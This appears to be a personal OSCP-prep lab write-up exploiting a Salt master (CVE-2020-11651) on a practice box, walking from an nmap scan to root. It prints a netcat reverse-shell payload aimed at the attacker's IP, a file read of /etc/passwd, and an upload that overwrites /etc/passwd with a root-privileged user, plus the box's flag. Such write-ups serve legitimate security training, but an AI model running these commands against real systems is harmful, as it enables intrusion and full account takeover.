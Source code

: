 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: []
---
```

**Start 13:28 06-09**

---
```
192.168.166.62
```
## Recon

==Nmap==
As always we start of by doing recon with `nmap`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 192.168.166.62 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 07:29 EDT
Nmap scan report for 192.168.166.62
Host is up (0.017s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.89 seconds
```

It appears that there's a total of 4 ports open. 
I added the host under `twiggy.oscp` to my `/etc/hosts` file.

Let's check out what's running.

## 80/TCP - HTTP

I went to the website and found the following screen:

![](../../../assets/d8c04893ee9a1d955cbbe7d46e1a3d7a.png)

Here I noticed that only one link was useful, the `Log in` link which brought me to the `/admin` endpoint.

![](../../../assets/612e4e5610b5306769117df83afcde5a.png)

I tried some default creds such as `admin - admin` but got no further. Instead I checked out the `8000` port for now.


## 8000/TCP - HTTP

Heading to this page I found the following:

![](../../../assets/e4c20b5113e51de7301a88d837685736.png)

By checking out the `headers` I was able to find out that uses the `salt-api` on `X-Upstream`.

![](../../../assets/bfff1187319f0b2d871da81ef488014a.png)

I did some research on this particular version and found some interesting info:

![](../../../assets/ecc655ef55bf8e6797c60f1981ca94f4.png)

![](../../../assets/abd08fa48433fae761b1e8d5e3520aa3.png)


==Exploit - FAIL==
Since we are not yet authenticated the 1st one seems more interesting to us. I then proceeded to look up ready-made exploits for this CVE and [found one](https://github.com/dozernz/cve-2020-11651):

![](../../../assets/d219c8212f0b4ab9c303d9aee59d764f.png)

I followed the instructions mentioned and got ready to exploit. 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Now that my listener is listening I use the exploit.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python CVE-2020-11651.py 192.168.166.62 master 'nc 192.168.45.243 4444 -e "/bin/bash"'

Attempting to ping master at 192.168.166.62
Retrieved root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906124113496153', 'tag': 'salt/run/20240906124113496153'}. Looks promising!
```

Unfortunately enough it threw me an error which I had to research. I found out that it was due to the fact that the packages in `salt` I was using were already deprecated, meaning I had to create a `virtual env` where I could manually select the correct packages. But beforehand I had to install `Python 3.7` with the following technique:

```bash
sudo apt update
sudo apt install build-essential libssl-dev zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libsqlite3-dev libreadline-dev libffi-dev

wget https://www.python.org/ftp/python/3.7.13/Python-3.7.13.tgz
tar -xf Python-3.7.13.tgz
cd Python-3.7.13

./configure --enable-optimizations
make -j "$(nproc)"
sudo make altinstall
```

Once all these commands were issued I could now start up a `venv`:

```bash
python3.7 -m venv env
source env/bin/activate
```

Now that the `env` has been activated I could use `sed` to modify the `core.py` file.

```bash
kali@kali:~$ python3 -m venv env

kali@kali:~$ . ./env/bin/activate

(env) kali@kali:~$ pip install distro salt

(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py

(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

This wouldn't work for some reason...

Off to a particular bad start.

## Retracing

Since I wouldn't get a shell I decided to check out whether I could still issue commands using the previously found `PoC`. I checked out the argument options:

![](../../../assets/e603457d2f2df8abb7172a1934ce39dd.png)

I noticed the `-r` flag meaning we can try to read a file like `/etc/passwd` for example. I decided to set it up and try it out:

```bash
python3 exploit.py --master 192.168.248.62 -r /etc/passwd
```

![](../../../assets/2680d63a7d8a344bbb1f7a9c30146fc0.png)

Indeed it worked! I also noticed there's a way to `upload` files using the exploit which I will leverage to insert a new user into the `/etc/passwd` file. I'll give the user the following creds `hacked - 1234`. I'll have to first use `openssl` to encrypt the password and then add it to the end of the file.

```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 1234   
$1$RycphDiZ$IWncJI4gWPGrxGPuowStT0
```

I then used the following command to add the new user to the end of the file, I gave the new user the same privileges as the `root` user:

![](../../../assets/909b38c3a561f1a65b2676d0ec809bc9.png)

Now that I had modified the file I could get to uploading it:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py --master 192.168.248.62 --upload-src passwd --upload-dest ../../../../../../etc/passwd
```

![](../../../assets/006207b8c5f498916a37d5c81be65099.png)

I notice the last line where it tells me the data has successfully been written to `/etc/passwd` meaning I can now try to `SSH` into the machine using my creds.

```
hacked
1234
```

## 22/TCP - SSH

I log in to `SSH` and instantly get `root` privileges:

![](../../../assets/d4d5768af0f8b7d22c539bfbb884f5e4.png)

I can now easily get the flag, since it is in the same directory I land in.

```bash
[root@twiggy ~]# ls -l
total 4
-rw-r--r-- 1 root root 33 Sep  9 10:33 proof.txt
[root@twiggy ~]# cat proof.txt 
558d69dcbb65ab8dee0a40be604829d6
```


---

**Finished 17:04 09-09**

[^Links]: [[OSCP Prep]] 
